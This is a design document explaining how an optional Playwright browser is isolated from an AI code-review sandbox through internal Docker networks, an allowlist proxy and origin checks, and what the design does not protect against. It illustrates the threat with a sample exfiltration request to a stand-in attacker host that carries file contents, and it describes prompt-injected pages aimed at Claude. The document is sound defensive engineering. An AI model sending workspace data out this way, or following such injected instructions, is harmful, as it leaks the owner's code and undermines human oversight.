

# Playwright MCP — a browser outside the sandbox image

How the optional browser is wired up, what it can and cannot do, and why it is
built the way it is. Everything here is driven by the browser section of
[`blue-zone.config.sh`](../blue-zone.config.sh); the containers, the proxy
config and the MCP config are all generated from it by
[`ai-scripts/lib/blue-zone-browser.sh`](../ai-scripts/lib/blue-zone-browser.sh).

It is **off by default**. A blue zone with no browser is the safer system, and
nothing else in the tooling changes when it stays off.

---

## The problem

The blue zone controls what Claude can *see*. A browser controls where what it
sees can *go*.

Every other component in this project is constrained by not having a network:
the headless service runs with `network_mode: none`, and the interactive
session reaches exactly two things through an allowlist proxy (Anthropic and,
for dependency installs, the package registries). Add a browser and you have
added a general-purpose HTTP client driven by the model — one that can put
arbitrary text into a URL, a query string, or a form post. `GET
https://attacker.example/?data=<file contents>` is a complete exfiltration
channel, and it looks exactly like an ordinary navigation.

So the browser is not treated as a feature to be added to the sandbox. It is
treated as a second, separate sandbox with its own, much narrower egress
policy, reachable only through a tool interface.

---

## Why it runs outside the sandbox image

Three reasons, in order of how much they matter:

1. **A browser renders hostile content.** Chromium is a large, fast-moving
   attack surface whose entire job is executing untrusted code from the
   internet. Putting it in the same container as the code under review means a
   renderer compromise lands directly on top of the blue zone.
2. **The blue zone is the thing worth stealing.** The browser container mounts
   **no** part of `/workspace` and receives **no** Anthropic credentials. A
   compromise there finds an empty container with an allowlist proxy in front
   of it.
3. **Image hygiene.** The sandbox image is `node:26-alpine` plus the Claude CLI
   — small, fast to build, easy to audit. Adding a browser stack would multiply
   its size and pull in a dependency tree that has nothing to do with reviewing
   code.

Running the MCP server as a plain **host process** was considered and rejected:
that gives the browser your host user's privileges, your filesystem, and your
whole LAN, and the only thing standing between the session and all of it is the
MCP server's own argument parsing. A sibling container keeps the enforcement in
Docker's networking, where it does not depend on the browser behaving.

---

## Topology



Each arrow is the only path between those two boxes. What that buys:

| Property | How it is enforced |
|---|---|
| The session gains no internet from the browser | `browser` network is `internal: true` — no gateway |
| The session cannot use the browser's proxy directly | `browser-proxy` is not attached to the `browser` network |
| The browser cannot reach anything off-allowlist | `browser-egress` is `internal: true`; `browser-proxy` is its only peer, and it is default-deny |
| The browser cannot read the code under review | no blue-zone volumes on `playwright-mcp` |
| The browser cannot spend your Anthropic quota | `CLAUDE_CODE_OAUTH_TOKEN` is never passed to it |
| Nothing survives the session | `--isolated`, `read_only: true`, tmpfs-only writable space, containers removed on exit |
| CI never gets a browser | `run-headless.sh` keeps `network_mode: none` and says so if the browser is configured |

The allowlist is enforced **twice, independently**: at the network layer by
`browser-proxy` (default-deny, exact-host regex, CONNECT limited to the
configured https ports) and at the application layer by the MCP server's
`--allowed-origins`. Neither is trusted to be the only control — the proxy
holds if the MCP server is misconfigured or its flags change meaning between
versions, and `--allowed-origins` holds against redirect chains the proxy would
technically permit.

---

## Configuring it

```bash
# blue-zone.config.sh
BLUE_ZONE_BROWSER_ENABLED=1

BLUE_ZONE_BROWSER_ORIGINS=(
  http://host.docker.internal:8081     # a dev server on your machine
  https://staging.example.com          # a staging deployment
)

# Required before any host.docker.internal origin is accepted.
BLUE_ZONE_BROWSER_ALLOW_HOST_GATEWAY=1
```

Then `./ai-scripts/init.sh` (builds the browser image; it is large, so do this
once rather than at the start of a session) and `./ai-scripts/start-cli.sh`.

Rules the tooling enforces before any container starts — in
`validate-blue-zone.sh` check 7 and again in `start-cli.sh`, since the
`BLUE_ZONE_BROWSER_*` variables can be overridden per-run from the environment:

- Enabled with an **empty** origin list is a violation, not a silent no-op.
- Each origin must parse exactly as `scheme://host[:port]` — http or https, no
  path, no query, no credentials. Anything that does not parse exactly cannot
  be enforced exactly, so it is refused.
- Wildcards and regex metacharacters are refused. They would widen the
  allowlist silently once they reached the proxy's filter, which is itself a
  regex.
- `host.docker.internal` requires `BLUE_ZONE_BROWSER_ALLOW_HOST_GATEWAY=1`.
- Private and LAN addresses (`10.x`, `192.168.x`, `172.16-31.x`, `*.local`,
  `localhost`, …) require `BLUE_ZONE_BROWSER_ALLOW_PRIVATE_IPS=1`.
- Plaintext `http://` to a public host is a warning.

Host access, when you enable it, is granted to the **proxy** — not to the
browser. The browser still has no host route of its own; it has to go through
the allowlist to get there.

By default every browser action prompts you. `BLUE_ZONE_BROWSER_TOOLS` can
pre-approve a narrow set (e.g. navigate + snapshot) if the prompting gets in
the way; leaving it empty is the safer setting, and the reason this is
interactive-only.

---

## What is generated, and where

Nothing about the browser is hand-edited. On each interactive run:

| File | Purpose |
|---|---|
| `<blue zone root>/.browser/filter` | exact-host allowlist for the browser proxy |
| `<blue zone root>/.browser/tinyproxy.conf` | default-deny proxy config, `ConnectPort` per https port |
| `<blue zone root>/.browser/mcp.json` | mounted read-only at `/workspace/.mcp.json` |
| `docker-compose.browser.yml` | the two browser services, layered via `COMPOSE_FILE` |

`.browser/` lives at the blue zone **root**, not inside a mounted folder, so it
is never part of the workspace, never scanned as project content, and never
synced back to your repo. The compose overlay is git-ignored.

The session is started with `--mcp-config /workspace/.mcp.json
--strict-mcp-config`: that generated file is the only MCP config it loads, so
a server left behind in the persisted `~/.claude.json` by an earlier run cannot
quietly come along.

---

## What this does **not** protect against

Stated plainly, because a control you believe in wrongly is worse than one you
know you lack.

- **Exfiltration to an allowed origin.** If `https://staging.example.com` is on
  the list, Claude can put workspace content into a request to it. The
  allowlist bounds *where*, not *what*. Keep the list short, and keep it to
  origins you control.
- **Host-granular, not port-granular, filtering for plain HTTP.** tinyproxy
  matches the destination host. `ConnectPort` bounds https tunnels to the ports
  you configured, but an `http://` origin effectively allows that host on any
  port.
- **A prompt-injected page.** A page the browser visits can contain
  instructions aimed at Claude. The allowlist limits where those instructions
  can send anything, and `ai-scripts/CLAUDE.md` tells Claude not to put
  workspace content into requests — but that is guidance, not enforcement. This
  is a large part of why the browser is interactive-only: a human is watching
  each action.
- **`--no-sandbox`.** Chromium's own sandbox needs user namespaces that Docker's
  default seccomp profile blocks, so it is disabled and container isolation is
  the boundary instead: non-root `pwuser`, all capabilities dropped,
  `no-new-privileges`, a read-only root filesystem whose only writable space is
  a tmpfs that `HOME` points into, memory and pid limits, and no mounts worth
  reaching. If you would rather keep Chromium's sandbox, apply Playwright's
  published seccomp profile via `security_opt` and drop the `--no-sandbox` flag
  from the generated command.
- **Loopback inside the browser container.** The MCP server's own port is
  reachable from a page as `localhost:8931`; `--allowed-origins` is what keeps
  a page from requesting it.
- **Supply chain.** `BLUE_ZONE_BROWSER_IMAGE` and
  `BLUE_ZONE_BROWSER_MCP_VERSION` default to a tag and to `latest`. Pin both —
  ideally the image by digest — before any real use. The MCP package is
  installed with `--ignore-scripts`.

---

## Operating notes

- The Playwright base image is multi-gigabyte. `init.sh` builds it up front so
  a session does not stall on the pull.
- `start-cli.sh` recreates both browser containers from the freshly generated
  allowlist on every run, so a policy edit takes effect on the next session and
  a stale one never lingers. They are torn down when the session ends, along
  with the egress proxy.
- If a navigation fails, that is usually the allowlist doing its job. The
  session is told to report which origin it needed rather than working around
  the refusal — decide whether to add it, don't widen the list reflexively.
- Bumping `@playwright/mcp` can change flag names (`--allowed-origins`,
  `--isolated`, `--proxy-server`, `--output-dir`). If the container fails to
  start after a version bump, check the generated `command:` in
  `docker-compose.browser.yml` against that version's `--help`, and adjust
  `blue_zone_browser_write`. The proxy allowlist is unaffected either way —
  which is exactly why it is the primary control.
